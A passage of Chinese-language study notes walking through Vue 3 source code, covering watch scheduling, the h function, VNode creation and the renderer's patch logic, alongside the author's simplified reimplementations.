// job 非常重要 watch 的核心
const job: SchedulerJob = () => {
if (!effect.active) {
return;
}
if (cb) {
// watch(source, cb)
// 计算 newValue
const newValue = effect.run();
if (
deep ||
forceTrigger ||
(isMultiSource
? (newValue as any[]).some((v, i) =>
hasChanged(v, (oldValue as any[])[i])
)
: hasChanged(newValue, oldValue)) ||
(__COMPAT__ &&
isArray(newValue) &&
isCompatEnabled(DeprecationTypes.WATCH_ARRAY, instance))
) {
// cleanup before running cb again
if (cleanup) {
cleanup();
}
// cb 就是我们传递给 watch 的函数，callWithAsyncErrorHandling 只是为了做统一的 try catch 错误处理
// 由此可知 job 函数的执行就是 watch 函数的执行
callWithAsyncErrorHandling(cb, instance, ErrorCodes.WATCH_CALLBACK, [
newValue,
// pass undefined as the old value when it's changed for the first time
oldValue === INITIAL_WATCHER_VALUE ? undefined : oldValue,
onCleanup,
]);
// watch 函数执行结束，将 newValue 赋值给 oldValue
oldValue = newValue;
}
} else {
// watchEffect
effect.run();
}
};
实现 watch
懒执行 lazy
-
computed 和 watch 代码中都使用了调度器，调度系统由两部分组成：
- lazy 懒执行
- scheduler 调度器
-
懒执行的实现很简单，就是在 effect 函数中创建 ReactiveEffect 之后，判断是否配置中传递了 lazy，如果没有传递 lazy，那么就立即执行 reactiveEffect.run
if (!options || !options.lazy) { _effect.run(); } -
而在 watch 中，默认 lazy 是 true 的，所以要在之前的 effect 中实现 lazy 懒执行
export interface ReactiveEffectOptions { lazy?: boolean; scheduler?: EffectScheduler; } export function effect<T = any>( fn: () => T, options?: ReactiveEffectOptions ) { const _effect = new ReactiveEffect(fn); // 懒执行 if (!options || !options.lazy) { _effect.run(); } } -
当 options 传递了 scheduler，就将 reactiveEffect 和 options 合并，使它也包含 scheduler 属性，后续触发依赖的时候，就可以直接执行自定义的 scheduler
export function effect<T = any>( fn: () => T, options?: ReactiveEffectOptions ) { const _effect = new ReactiveEffect(fn); if (options) { extend(_effect, options); } if (!options || !options.lazy) { _effect.run(); } }
调度器 scheduler
// 对应 promise 的 pending 状态
let isFlushPending = false;
/**
* promise.resolve()
*/
const resolvedPromise = Promise.resolve() as Promise<any>;
/**
* 当前的执行任务
*/
let currentFlushPromise: Promise<void> | null = null;
/**
* 待执行的任务队列
*/
const pendingPreFlushCbs: Function[] = [];
/**
* 队列预处理函数
*/
export function queuePreFlushCb(cb: Function) {
queueCb(cb, pendingPreFlushCbs);
}
/**
* 队列处理函数
*/
function queueCb(cb: Function, pendingQueue: Function[]) {
// 将所有的回调函数，放入队列中
pendingQueue.push(cb);
queueFlush();
}
/**
* 将队列任务执行放到 promise 微任务中执行
*/
function queueFlush() {
if (!isFlushPending) {
isFlushPending = true;
currentFlushPromise = resolvedPromise.then(flushJobs);
}
}
/**
* 处理队列
*/
function flushJobs() {
isFlushPending = false;
flushPreFlushCbs();
}
/**
* 依次处理队列中的任务
*/
export function flushPreFlushCbs() {
if (pendingPreFlushCbs.length) {
// 去重
let activePreFlushCbs = [...new Set(pendingPreFlushCbs)];
// 清空待执行的任务队列
pendingPreFlushCbs.length = 0;
// 循环调用 cb
for (let i = 0; i < activePreFlushCbs.length; i++) {
activePreFlushCbs[i]();
}
}
}
watch
import { EMPTY_OBJ, hasChanged, isObject } from '@vue/shared';
import { ReactiveEffect } from 'packages/reactivity/src/effect';
import { isReactive } from 'packages/reactivity/src/reactive';
import { queuePreFlushCb } from './scheduler';
/**
* watch 配置项属性
*/
export interface WatchOptions<immediate = boolean> {
immediate?: immediate;
deep?: boolean;
}
/**
* 指定的 watch 函数
* @param source 监听的响应性数据
* @param cb 回调函数
* @param options 配置对象
* @returns
*/
export function watch(source, cb: Function, options?: WatchOptions) {
return doWatch(source, cb, options);
}
function doWatch(
source,
cb: Function,
{ immediate, deep }: WatchOptions = EMPTY_OBJ
) {
// 触发 getter 的指定函数
let getter: () => any;
// 判断 source 如果是响应式数据，设置 getter 为返回 source 的函数，并且 deep 默认为 true
if (isReactive(source)) {
getter = () => source;
deep = true;
} else {
getter = () => {};
}
// 存在回调函数并且 deep 为 true，就遍历触发响应式数据每一层属性的 getter 来收集依赖
if (cb && deep) {
const baseGetter = getter;
getter = () => traverse(baseGetter());
}
// 旧值
let oldValue = {};
// job 函数本质上就是调用传递给 watch 的函数也就是 cb
const job = () => {
if (cb) {
const newValue = effect.run();
if (deep || hasChanged(newValue, oldValue)) {
cb(newValue, oldValue);
oldValue = newValue;
}
}
};
// 调度器，将 job 函数放入队列中，并且使用 promise 微任务来执行
let scheduler = () => queuePreFlushCb(job);
const effect = new ReactiveEffect(getter, scheduler);
if (cb) {
// 如果传递了 immediate 就立即调用一次 cb
if (immediate) {
job();
} else {
oldValue = effect.run();
}
} else {
effect.run();
}
return () => {
effect.stop();
};
}
/**
* 遍历响应式对象所有属性，从而触发依赖收集
*/
export function traverse(value: unknown) {
if (!isObject(value)) {
return value;
}
for (const key in value as object) {
traverse((value as object)[key]);
}
return value;
}
总结
- watch 本质上还是通过依赖收集和依赖触发来实现的，类似发布订阅模式。传递给 watch 的 cb 就是副作用 effect，它内部会递归响应式数据的每一层，触发 getter 依赖收集，然后生成 job 函数，job 就是调用 cb，生成 scheduler 调度器，调度器中将 job 放入队列中，并且使用微任务执行，等到响应式数据 setter 触发依赖的时候，就会执行调度器
- 使用 scheduler 调度器是为了控制何时触发 watch cb，否则默认的触发依赖是立即执行的，相当于自定义了触发依赖
- 使用队列避免重复计算：当多个数据同时发生变化时，如果直接对每个变化都立即执行回调函数，可能会导致大量的重复计算。
- 通过使用微任务将 watch cb 的触发在 dom 更新之前，可以合并这些数据的变化，从而减少不必要的 dom 更新
runtime 核心原则
什么是 runtime？
- runtime 运行时就是将 vnode 渲染到页面中
- 先调用 h 生成 vnode
- 再调用 render 将 vnode 渲染到指定位置
dom 和 虚拟 dom
- html 中任何内容都是一个 dom 节点
- 虚拟 dom 就是使用 js 对象来表示真实 dom 节点
mount 和 patch 挂载和更新
<script>
const vnode = {
type: 'div',
children: 'hello render',
};
const vnode2 = {
type: 'div',
children: 'patch render',
};
function render(oldVNode, newVNode, container) {
if (!oldVNode) {
mount(newVNode, container);
} else {
patch(oldVNode, newVNode, container);
}
}
function mount(vnode, container) {
const ele = document.createElement(vnode.type);
ele.innerText = vnode.children;
container.appendChild(ele);
}
function unmount(container) {
container.innerHTML = '';
}
function patch(oldVNode, newVNode, container) {
unmount(container);
const ele = document.createElement(newVNode.type);
ele.innerText = newVNode.children;
container.appendChild(ele);
}
render(null, vnode, document.querySelector('#app'));
</script>
h 和 render
- h 用来生成 VNode 的函数
- render 用来创建 VNode 对应的真实 dom
<script>
const { render, h } = Vue;
const vnode = h(
'div',
{
class: 'test',
},
'hello render'
);
const container = document.querySelector('#app');
render(vnode, container);
</script>
runtime 核心设计原则
- 为什么 runtime 分为 runtime-core 和 runtime-dom 两个模块？
- 因为 core 中是核心逻辑，而将不同宿主环境中操作 dom 的方法都放在 dom 模块中分离出去了，低耦合更好维护，例如浏览器环境和 ssr 环境操作 dom 是不同的
runtime h 函数源码
<script>
const { h, render, Text, Comment, Fragment } = Vue;
// dom 元素，子元素是 text 节点
const vnode = h(
'div',
{
class: 'test',
},
'hello render'
);
// dom 元素，子元素是数组
const vnode2 = h('p', [h('p', 'p1'), h('p', 'p2'), h('p', 'p3')]);
const component = {
render() {
const vnode_c = h('div', 'this is a component');
return vnode_c;
},
};
// 组件
const vnode3 = h(component);
// Text
const vnodeText = h(Text, 'this is a Text');
// Comment
const vnodeComment = h(Comment, 'this is a Comment');
// Fragment
const vnodeFragment = h(Fragment, 'this is a Fragment');
</script>
h
\packages\runtime-core\src\h.ts
export function h(type: any, propsOrChildren?: any, children?: any): VNode {
const l = arguments.length;
// 用户传递参数处理
if (l === 2) {
if (isObject(propsOrChildren) && !isArray(propsOrChildren)) {
// single vnode without props
if (isVNode(propsOrChildren)) {
return createVNode(type, null, [propsOrChildren]);
}
// props without children
return createVNode(type, propsOrChildren);
} else {
// omit props
return createVNode(type, null, propsOrChildren);
}
} else {
if (l > 3) {
children = Array.prototype.slice.call(arguments, 2);
} else if (l === 3 && isVNode(children)) {
children = [children];
}
// 最终调用 createVNode 创建 vnode
return createVNode(type, propsOrChildren, children);
}
}
\packages\runtime-core\src\vnode.ts
function _createVNode(
type: VNodeTypes | ClassComponent | typeof NULL_DYNAMIC_COMPONENT,
props: (Data & VNodeProps) | null = null,
children: unknown = null,
patchFlag: number = 0,
dynamicProps: string[] | null = null,
isBlockNode = false
): VNode {
if (!type || type === NULL_DYNAMIC_COMPONENT) {
if (__DEV__ && !type) {
warn(`Invalid vnode type when creating vnode: ${type}.`);
}
type = Comment;
}
if (isVNode(type)) {
// createVNode receiving an existing vnode. This happens in cases like
// <component :is="vnode"/>
// #2078 make sure to merge refs during the clone instead of overwriting it
const cloned = cloneVNode(type, props, true /* mergeRef: true */);
if (children) {
normalizeChildren(cloned, children);
}
if (isBlockTreeEnabled > 0 && !isBlockNode && currentBlock) {
if (cloned.shapeFlag & ShapeFlags.COMPONENT) {
currentBlock[currentBlock.indexOf(type)] = cloned;
} else {
currentBlock.push(cloned);
}
}
cloned.patchFlag |= PatchFlags.BAIL;
return cloned;
}
// class component normalization.
if (isClassComponent(type)) {
type = type.__vccOpts;
}
// 2.x async/functional component compat
if (__COMPAT__) {
type = convertLegacyComponent(type, currentRenderingInstance);
}
// class & style normalization.
if (props) {
// for reactive or proxy objects, we need to clone it to enable mutation.
props = guardReactiveProps(props)!;
let { class: klass, style } = props;
// 如果 class 是个对象，就去标准化 class
if (klass && !isString(klass)) {
props.class = normalizeClass(klass);
}
if (isObject(style)) {
// reactive state objects need to be cloned since they are likely to be
// mutated
if (isProxy(style) && !isArray(style)) {
style = extend({}, style);
}
props.style = normalizeStyle(style);
}
}
// encode the vnode type information into a bitmap
// vnode 类型
const shapeFlag = isString(type)
? ShapeFlags.ELEMENT
: __FEATURE_SUSPENSE__ && isSuspense(type)
? ShapeFlags.SUSPENSE
: isTeleport(type)
? ShapeFlags.TELEPORT
: isObject(type)
? ShapeFlags.STATEFUL_COMPONENT
: isFunction(type)
? ShapeFlags.FUNCTIONAL_COMPONENT
: 0;
if (__DEV__ && shapeFlag & ShapeFlags.STATEFUL_COMPONENT && isProxy(type)) {
type = toRaw(type);
warn(
`Vue received a Component which was made a reactive object. This can ` +
`lead to unnecessary performance overhead, and should be avoided by ` +
`marking the component with \`markRaw\` or using \`shallowRef\` ` +
`instead of \`ref\`.`,
`\nComponent that was made reactive: `,
type
);
}
return createBaseVNode(
type,
props,
children,
patchFlag,
dynamicProps,
shapeFlag,
isBlockNode,
true
);
}
- 调用 createBaseVNode 创建 vnode 对象
function createBaseVNode(
type: VNodeTypes | ClassComponent | typeof NULL_DYNAMIC_COMPONENT,
props: (Data & VNodeProps) | null = null,
children: unknown = null,
patchFlag = 0,
dynamicProps: string[] | null = null,
shapeFlag = type === Fragment ? 0 : ShapeFlags.ELEMENT,
isBlockNode = false,
needFullChildrenNormalization = false
) {
const vnode = {
__v_isVNode: true,
__v_skip: true,
type,
props,
key: props && normalizeKey(props),
ref: props && normalizeRef(props),
scopeId: currentScopeId,
slotScopeIds: null,
children,
component: null,
suspense: null,
ssContent: null,
ssFallback: null,
dirs: null,
transition: null,
el: null,
anchor: null,
target: null,
targetAnchor: null,
staticCount: 0,
shapeFlag,
patchFlag,
dynamicProps,
dynamicChildren: null,
appContext: null,
} as VNode;
// needFullChildrenNormalization 是 true，调用 normalizeChildren 处理 children
if (needFullChildrenNormalization) {
normalizeChildren(vnode, children);
// normalize suspense children
if (__FEATURE_SUSPENSE__ && shapeFlag & ShapeFlags.SUSPENSE) {
(type as typeof SuspenseImpl).normalize(vnode);
}
} else if (children) {
// compiled element vnode - if children is passed, only possible types are
// string or Array.
vnode.shapeFlag |= isString(children)
? ShapeFlags.TEXT_CHILDREN
: ShapeFlags.ARRAY_CHILDREN;
}
// validate key
if (__DEV__ && vnode.key !== vnode.key) {
warn(`VNode created with invalid key (NaN). VNode type:`, vnode.type);
}
// track vnode for block tree
if (
isBlockTreeEnabled > 0 &&
// avoid a block node from tracking itself
!isBlockNode &&
// has current parent block
currentBlock &&
// presence of a patch flag indicates this node needs patching on updates.
// component nodes also should always be patched, because even if the
// component doesn't need to update, it needs to persist the instance on to
// the next vnode so that it can be properly unmounted later.
(vnode.patchFlag > 0 || shapeFlag & ShapeFlags.COMPONENT) &&
// the EVENTS flag is only for hydration and if it is the only flag, the
// vnode should not be considered dynamic due to handler caching.
vnode.patchFlag !== PatchFlags.HYDRATE_EVENTS
) {
currentBlock.push(vnode);
}
if (__COMPAT__) {
convertLegacyVModelProps(vnode);
defineLegacyVNodeProperties(vnode);
}
return vnode;
}
- normalizeChildren 处理 children
export function normalizeChildren(vnode: VNode, children: unknown) {
let type = 0;
const { shapeFlag } = vnode;
if (children == null) {
children = null;
} else if (isArray(children)) {
// children 是数组
type = ShapeFlags.ARRAY_CHILDREN; // 1 << 4 16
} else if (typeof children === 'object') {
// // children 是对象
if (shapeFlag & (ShapeFlags.ELEMENT | ShapeFlags.TELEPORT)) {
// Normalize slot to plain children for plain element and Teleport
const slot = (children as any).default;
if (slot) {
// _c marker is added by withCtx() indicating this is a compiled slot
slot._c && (slot._d = false);
normalizeChildren(vnode, slot());
slot._c && (slot._d = true);
}
return;
} else {
type = ShapeFlags.SLOTS_CHILDREN;
const slotFlag = (children as RawSlots)._;
if (!slotFlag && !(InternalObjectKey in children!)) {
// if slots are not normalized, attach context instance
// (compiled / normalized slots already have context)
(children as RawSlots)._ctx = currentRenderingInstance;
} else if (slotFlag === SlotFlags.FORWARDED && currentRenderingInstance) {
// a child component receives forwarded slots from the parent.
// its slot type is determined by its parent's slot type.
if (
(currentRenderingInstance.slots as RawSlots)._ === SlotFlags.STABLE
) {
(children as RawSlots)._ = SlotFlags.STABLE;
} else {
(children as RawSlots)._ = SlotFlags.DYNAMIC;
vnode.patchFlag |= PatchFlags.DYNAMIC_SLOTS;
}
}
}
} else if (isFunction(children)) {
// children 是函数
children = { default: children, _ctx: currentRenderingInstance };
type = ShapeFlags.SLOTS_CHILDREN;
} else {
// children 是字符串
children = String(children);
// force teleport children to array so it can be moved around
if (shapeFlag & ShapeFlags.TELEPORT) {
type = ShapeFlags.ARRAY_CHILDREN;
children = [createTextVNode(children as string)];
} else {
type = ShapeFlags.TEXT_CHILDREN;
}
}
vnode.children = children as VNodeNormalizedChildren;
// 按位或赋值，用来组合状态
// 比如 a = 0001 b = 0010 那么 a | b = 0011 ，相当于将 a 和 b 的状态组合到一起，既包含了 a 的二进制位也包含了 b 的二进制位
vnode.shapeFlag |= type;
}
createVNode 中会调用 normalizeClass 来标准化 class
export function normalizeClass(value: unknown): string {
let res = '';
if (isString(value)) {
// 如果 class 名是字符串原样返回
res = value;
} else if (isArray(value)) {
// 如果 class 名是数组，循环标准化处理后再拼接成字符串返回
for (let i = 0; i < value.length; i++) {
const normalized = normalizeClass(value[i]);
if (normalized) {
res += normalized + ' ';
}
}
} else if (isObject(value)) {
// 如果 class 名是对象，循环如果 value 为真就拼接成字符串返回
for (const name in value) {
if (value[name]) {
res += name + ' ';
}
}
}
return res.trim();
}
总结
- vnode 的类型由 shapeFlag 来决定，比如 9 是 ELEMENT+TEXT_CHILDREN，17 是 ELEMENT+ARRAY_CHILDREN
- h 生成子节点的时候是由内向外生成的，先生成子节点，再生成父节点
实现 runtime h 函数
export function h(type: any, propsOrChildren?: any, children?: any): VNode {
// 获取用户传递的参数数量
const l = arguments.length;
// 如果用户只传递了两个参数，那么证明第二个参数可能是 props , 也可能是 children
if (l === 2) {
// 如果 第二个参数是对象，但不是数组。则第二个参数只有两种可能性：1. VNode 2.普通的 props
if (isObject(propsOrChildren) && !isArray(propsOrChildren)) {
// 如果是 VNode，则 第二个参数代表了 children
if (isVNode(propsOrChildren)) {
return createVNode(type, null, [propsOrChildren]);
}
// 如果不是 VNode， 则第二个参数代表了 props
return createVNode(type, propsOrChildren, []);
} else {
// 如果第二个参数是数组，则第二个参数代表了 children
return createVNode(type, null, propsOrChildren);
}
} else {
// 如果用户传递了三个或以上的参数，那么证明第二个参数一定代表了 props
if (l > 3) {
// 如果参数在三个以上，则从第二个参数开始，把后续所有参数都作为 children
children = Array.prototype.slice.call(arguments, 2);
} else if (l === 3 && isVNode(children)) {
// 如果传递的参数只有三个，则 children 是单纯的 children
children = [children];
}
// 触发 createVNode 方法，创建 VNode 实例
return createVNode(type, propsOrChildren, children);
}
}
export interface VNode {
__v_isVNode: true;
type: any;
props: any;
children: any;
shapeFlag: number;
}
export const Text = Symbol('Text');
export const Comment = Symbol('Comment');
export const Fragment = Symbol('Fragment');
export function isVNode(val: any): val is VNode {
return val ? val.__v_isVNode === true : false;
}
/**w
* 生成一个 VNode 对象，并返回
* @param type vnode.type
* @param props 标签属性或自定义属性
* @param children? 子节点
* @returns vnode 对象
*/
export function createVNode(type, props, children): VNode {
if (props) {
let { class: kclass, style } = props;
if (kclass && !isString(kclass)) {
props.class = normalizeClass(kclass);
}
}
// 通过 bit 位处理 shapeFlag 类型
const shapeFlag = isString(type)
? ShapeFlags.ELEMENT
: isObject(type)
? ShapeFlags.STATEFUL_COMPONENT
: 0;
return createBaseVNode(type, props, children, shapeFlag);
}
/**
* 构建基础 vnode
*/
function createBaseVNode(type, props, children, shapeFlag) {
const vnode = {
__v_isVNode: true,
type,
props,
shapeFlag,
} as VNode;
normalizeChildren(vnode, children);
return vnode;
}
// 处理子节点
export function normalizeChildren(vnode: VNode, children: unknown) {
let type = 0;
if (children == null) {
children = null;
} else if (isArray(children)) {
type = ShapeFlags.ARRAY_CHILDREN;
} else if (isObject(children)) {
} else if (isFunction(children)) {
} else {
children = String(children);
type = ShapeFlags.TEXT_CHILDREN;
}
vnode.children = children;
// 按位或赋值，等同于 vnode.shapeFlag = vnode.shapeFlag | type
vnode.shapeFlag |= type;
}
/**
* 规范化 class 类，处理 class 的增强
*/
export function normalizeClass(value: unknown): string {
let res = '';
if (isString(value)) {
// 判断是否为 string，如果是 string 就不需要专门处理
res = value;
} else if (isArray(value)) {
// 额外的数组增强。官方案例：https://cn.vuejs.org/guide/essentials/class-and-style.html#binding-to-arrays
for (let i = 0; i < value.length; i++) {
// 循环得到数组中的每个元素，通过 normalizeClass 方法进行迭代处理
const normalized = normalizeClass(value[i]);
if (normalized) {
res += normalized + '';
}
}
} else if (isObject(value)) {
// 额外的对象增强
for (const name in value as object) {
// 把 value 当做 boolean 来看，拼接 name
if ((value as object)[name]) {
res += name + '';
}
}
}
return res;
}
runtime renderer 源码
<script>
const { h, render } = Vue;
// dom 元素，子元素是 text 节点
const vnode = h(
'div',
{
class: 'test',
},
'hello render'
);
render(vnode, document.querySelector('#app'));
</script>
-
\packages\runtime-core\src\renderer.tsrender 会调用 patch 方法const render: RootRenderFunction = (vnode, container, isSVG) => { // 如果 vnode 为空，如果旧节点存在就执行 unmount 操作删除旧节点 if (vnode == null) { if (container._vnode) { unmount(container._vnode, null, null, true); } } else { // 调用 patch patch( container._vnode || null, vnode, container, null, null, null, isSVG ); } flushPostFlushCbs(); container._vnode = vnode; // 旧节点存在 container._vnode 属性中 }; -
patch 方法，只用关心前四个参数
const patch: PatchFn = ( n1, // 旧的 vnode，第一次挂载 n1 是 null n2, // 新的 vnode container, // app div anchor = null, // 锚点 调用原生方法 insertBefore 时，插入到哪个 dom 节点的前面的参数 parentComponent = null, parentSuspense = null, isSVG = false, slotScopeIds = null, optimized = __DEV__ && isHmrUpdating ? false : !!n2.dynamicChildren ) => { // 如果新旧节点是同一个节点，直接跳过 if (n1 === n2) { return; } // patching & not same type, unmount old // 更新的时候，新旧节点类型不同，比如 div 变成了 h1，那么就将旧节点卸载，然后 n1 设置为 null，然后挂载新的节点 if (n1 && !isSameVNodeType(n1, n2)) { anchor = getNextHostNode(n1); unmount(n1, parentComponent, parentSuspense, true); n1 = null; } if (n2.patchFlag === PatchFlags.BAIL) { optimized = false; n2.dynamicChildren = null; } const { type, ref, shapeFlag } = n2; // 根据当前新节点的 type 类型，来判断后续操作 switch (type) { case Text: processText(n1, n2, container, anchor); break; case Comment: processCommentNode(n1, n2, container, anchor); break; case Static: if (n1 == null) { mountStaticNode(n2, container, anchor, isSVG); } else if (__DEV__) { patchStaticNode(n1, n2, container, isSVG); } break; case Fragment: processFragment( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); break; default: // ELEMENT 的节点会走到 default 这里 // 按位与，用来判断 shapeFlag 是否包含 ShapeFlags.ELEMENT // 按照我们的例子，这里是 ELEMENT 节点，所以此处为真就会调用 processElement if (shapeFlag & ShapeFlags.ELEMENT) { processElement( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else if (shapeFlag & ShapeFlags.COMPONENT) { processComponent( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else if (shapeFlag & ShapeFlags.TELEPORT) { (type as typeof TeleportImpl).process( n1 as TeleportVNode, n2 as TeleportVNode, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized, internals ); } else if (__FEATURE_SUSPENSE__ && shapeFlag & ShapeFlags.SUSPENSE) { (type as typeof SuspenseImpl).process( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized, internals ); } else if (__DEV__) { warn('Invalid VNode type:', type, `(${typeof type})`); } } // set ref if (ref != null && parentComponent) { setRef(ref, n1 && n1.ref, parentSuspense, n2 || n1, !n2); } }; -
processElement
const processElement = ( n1: VNode | null, // 旧节点 n2: VNode, // 新节点 container: RendererElement, // 容器 anchor: RendererNode | null, // 锚点 调用原生方法 insertBefore 时，插入到哪个 dom 节点的前面的参数 parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean, slotScopeIds: string[] | null, optimized: boolean ) => { isSVG = isSVG || (n2.type as string) === 'svg'; // 第一次挂载 n1 是空，所以就会调用 mountElement if (n1 == null) { mountElement( n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } else { // 更新操作 patchElement( n1, n2, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); } }; -
mountElement
const mountElement = ( vnode: VNode, // 要挂载的节点 container: RendererElement, // 容器 anchor: RendererNode | null, // 锚点 调用原生方法 insertBefore 时，插入到哪个 dom 节点的前面的参数 parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean, slotScopeIds: string[] | null, optimized: boolean ) => { let el: RendererElement; let vnodeHook: VNodeHook | undefined | null; const { type, props, shapeFlag, transition, patchFlag, dirs } = vnode; if ( !__DEV__ && vnode.el && hostCloneNode !== undefined && patchFlag === PatchFlags.HOISTED ) { // If a vnode has non-null el, it means it's being reused. // Only static vnodes can be reused, so its mounted DOM nodes should be // exactly the same, and we can simply do a clone here. // only do this in production since cloned trees cannot be HMR updated. el = vnode.el = hostCloneNode(vnode.el); } else { // 调用 runtime-dom 中与宿主（浏览器）相关的 createElement 方法创建 dom 元素 // el 变量和 vnode.el 都是 dom 元素 el = vnode.el = hostCreateElement( vnode.type as string, isSVG, props && props.is, props ); // mount children first, since some props may rely on child content // being already rendered, e.g. `<select value>` // 按位与 判断子节点类型，然后做对应的处理 // 我们这里例子子节点是文本，所以走 hostSetElementText if (shapeFlag & ShapeFlags.TEXT_CHILDREN) { // hostSetElementText 就是调用 runtime-dom 中与宿主（浏览器）相关的 setElementText 设置 dom 元素的 textContent 属性 hostSetElementText(el, vnode.children as string); } else if (shapeFlag & ShapeFlags.ARRAY_CHILDREN) { mountChildren( vnode.children as VNodeArrayChildren, el, null, parentComponent, parentSuspense, isSVG && type !== 'foreignObject', slotScopeIds, optimized ); } if (dirs) { invokeDirectiveHook(vnode, null, parentComponent, 'created'); } // 处理 props if (props) { for (const key in props) { if (key !== 'value' && !isReservedProp(key)) { // 当这里是 class 的时候，最终调用 runtime-dom 中的 patchClass 为元素设置 className hostPatchProp( el, key, null, props[key], isSVG, vnode.children as VNode[], parentComponent, parentSuspense, unmountChildren ); } } /** * Special case for setting value on DOM elements: * - it can be order-sensitive (e.g. should be set *after* min/max, #2325, #4024) * - it needs to be forced (#1471) * #2353 proposes adding another renderer option to configure this, but * the properties affects are so finite it is worth special casing it * here to reduce the complexity. (Special casing it also should not * affect non-DOM renderers) */ if ('value' in props) { hostPatchProp(el, 'value', null, props.value); } if ((vnodeHook = props.onVnodeBeforeMount)) { invokeVNodeHook(vnodeHook, parentComponent, vnode); } } // scopeId setScopeId(el, vnode, vnode.scopeId, slotScopeIds, parentComponent); } if (__DEV__ || __FEATURE_PROD_DEVTOOLS__) { Object.defineProperty(el, '__vnode', { value: vnode, enumerable: false, }); Object.defineProperty(el, '__vueParentComponent', { value: parentComponent, enumerable: false, }); } if (dirs) { invokeDirectiveHook(vnode, null, parentComponent, 'beforeMount'); } // #1583 For inside suspense + suspense not resolved case, enter hook should call when suspense resolved // #1689 For inside suspense + suspense resolved case, just call it const needCallTransitionHooks = (!parentSuspense || (parentSuspense && !parentSuspense.pendingBranch)) && transition && !transition.persisted; if (needCallTransitionHooks) { transition!.beforeEnter(el); } // 调用 nodeOps 中的 hostInsert 挂载 el 到容器中 hostInsert(el, container, anchor); if ( (vnodeHook = props && props.onVnodeMounted) || needCallTransitionHooks || dirs ) { queuePostRenderEffect(() => { vnodeHook && invokeVNodeHook(vnodeHook, parentComponent, vnode); needCallTransitionHooks && transition!.enter(el); dirs && invokeDirectiveHook(vnode, null, parentComponent, 'mounted'); }, parentSuspense); } }; -
更新操作的时候走 patchElement
const patchElement = ( n1: VNode, n2: VNode, parentComponent: ComponentInternalInstance | null, parentSuspense: SuspenseBoundary | null, isSVG: boolean, slotScopeIds: string[] | null, optimized: boolean ) => { // 新旧 vnode.el 指向同一个 el 元素 const el = (n2.el = n1.el!); let { patchFlag, dynamicChildren, dirs } = n2; // #1426 take the old vnode's patch flag into account since user may clone a // compiler-generated vnode, which de-opts to FULL_PROPS patchFlag |= n1.patchFlag & PatchFlags.FULL_PROPS; const oldProps = n1.props || EMPTY_OBJ; const newProps = n2.props || EMPTY_OBJ; let vnodeHook: VNodeHook | undefined | null; // disable recurse in beforeUpdate hooks parentComponent && toggleRecurse(parentComponent, false); if ((vnodeHook = newProps.onVnodeBeforeUpdate)) { invokeVNodeHook(vnodeHook, parentComponent, n2, n1); } if (dirs) { invokeDirectiveHook(n2, n1, parentComponent, 'beforeUpdate'); } parentComponent && toggleRecurse(parentComponent, true); if (__DEV__ && isHmrUpdating) { // HMR updated, force full diff patchFlag = 0; optimized = false; dynamicChildren = null; } const areChildrenSVG = isSVG && n2.type !== 'foreignObject'; if (dynamicChildren) { patchBlockChildren( n1.dynamicChildren!, dynamicChildren, el, parentComponent, parentSuspense, areChildrenSVG, slotScopeIds ); if (__DEV__ && parentComponent && parentComponent.type.__hmrId) { traverseStaticChildren(n1, n2); } } else if (!optimized) { // full diff // 执行 patchChildren 更新子节点 patchChildren( n1, n2, el, null, parentComponent, parentSuspense, areChildrenSVG, slotScopeIds, false ); } if (patchFlag > 0) { // the presence of a patchFlag means this element's render code was // generated by the compiler and can take the fast path. // in this path old node and new node are guaranteed to have the same shape // (i.e. at the exact same position in the source template) if (patchFlag & PatchFlags.FULL_PROPS) { // element props contain dynamic keys, full diff needed // 为 props 执行更新 patchProps( el, n2, oldProps, newProps, parentComponent, parentSuspense, isSVG ); } else { // class // this flag is matched when the element has dynamic class bindings. if (patchFlag & PatchFlags.CLASS) { if (oldProps.class !== newProps.class) { hostPatchProp(el, 'class', null, newProps.class, isSVG); } } // style // this flag is matched when the element has dynamic style bindings if (patchFlag & PatchFlags.STYLE) { hostPatchProp(el, 'style', oldProps.style, newProps.style, isSVG); } // props // This flag is matched when the element has dynamic prop/attr bindings // other than class and style. The keys of dynamic prop/attrs are saved for // faster iteration. // Note dynamic keys like :[foo]="bar" will cause this optimization to // bail out and go through a full diff because we need to unset the old key if (patchFlag & PatchFlags.PROPS) { // if the flag is present then dynamicProps must be non-null const propsToUpdate = n2.dynamicProps!; for (let i = 0; i < propsToUpdate.length; i++) { const key = propsToUpdate[i]; const prev = oldProps[key]; const next = newProps[key]; // #1471 force patch value if (next !== prev || key === 'value') { hostPatchProp( el, key, prev, next, isSVG, n1.children as VNode[], parentComponent, parentSuspense, unmountChildren ); } } } } // text // This flag is matched when the element has only dynamic text children. if (patchFlag & PatchFlags.TEXT) { if (n1.children !== n2.children) { hostSetElementText(el, n2.children as string); } } } else if (!optimized && dynamicChildren == null) { // unoptimized, full diff patchProps( el, n2, oldProps, newProps, parentComponent, parentSuspense, isSVG ); } if ((vnodeHook = newProps.onVnodeUpdated) || dirs) { queuePostRenderEffect(() => { vnodeHook && invokeVNodeHook(vnodeHook, parentComponent, n2, n1); dirs && invokeDirectiveHook(n2, n1, parentComponent, 'updated'); }, parentSuspense); } }; const patchChildren: PatchChildrenFn = ( n1, n2, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized = false ) => { // c1 为 旧节点的 children， c2 为 新节点的 children const c1 = n1 && n1.children; const prevShapeFlag = n1 ? n1.shapeFlag : 0; const c2 = n2.children; const { patchFlag, shapeFlag } = n2; // fast path if (patchFlag > 0) { if (patchFlag & PatchFlags.KEYED_FRAGMENT) { // this could be either fully-keyed or mixed (some keyed some not) // presence of patchFlag means children are guaranteed to be arrays patchKeyedChildren( c1 as VNode[], c2 as VNodeArrayChildren, container, anchor, parentComponent, parentSuspense, isSVG, slotScopeIds, optimized ); return; } else if (patchFlag & PatchFlags.UNKEYED_FRAGMENT) { // unkeyed patchUnkeyedChildren( c1 as VNode[], c2 as 